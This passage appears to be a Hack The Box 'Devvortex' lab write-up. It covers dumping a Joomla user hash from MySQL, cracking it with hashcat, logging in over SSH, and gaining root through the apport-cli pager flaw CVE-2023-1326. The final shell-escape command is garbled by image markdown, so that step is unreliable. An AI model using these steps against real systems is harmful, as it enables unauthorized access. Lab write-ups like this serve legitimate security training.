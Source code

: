 ## mysql

`show databases;` -> shows
![image](/assets/htb-devvortex/Pasted_image_20231127032152.png)

`use joomla`, `show tables` -> shows
_snipped output_
![image](/assets/htb-devvortex/Pasted_image_20231127032239.png)
`select * from sd4fg_users;` -> shows the hash

pop that hash to hashcat and after we crack it we get the password for logan

# logan

Lets ssh into logan
`ssh logan@10.10.11.2`
put in the cracked password and we get user.txt
![image](/assets/htb-devvortex/Pasted_image_20231127032448.png)

running `sudo -l` we find
![image](/assets/htb-devvortex/Pasted_image_20231127032532.png)

after looking online for that version and exploit we come across ubuntu security page
https://ubuntu.com/security/CVE-2023-1326
it talks about the exploit and also links a github page
![image](/assets/htb-devvortex/Pasted_image_20231127040155.png)

visiting the
https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb page we find
![image](/assets/htb-devvortex/Pasted_image_20231127040232.png)

lets cd to /var/crash to look for any crash file, at the time of writing this writup there was a crash file
![image](/assets/htb-devvortex/Pasted_image_20231127040349.png)

## privesc steps

- do `sudo /usr/bin/apport-cli  -c _usr_bin_sleep.1000.crash`
  ![image](/assets/htb-devvortex/Pasted_image_20231127040436.png)
- select V (view report)
- wait for some time to see the `:`
  ![image](/assets/htb-devvortex/Pasted_image_20231127040523.png)

- now we do `![image]//assets/htb-devvortex/bin/bash`
  ![image](/assets/htb-devvortex/Pasted_image_20231127040600.png)
- we get root, you can find the /root/root.txt
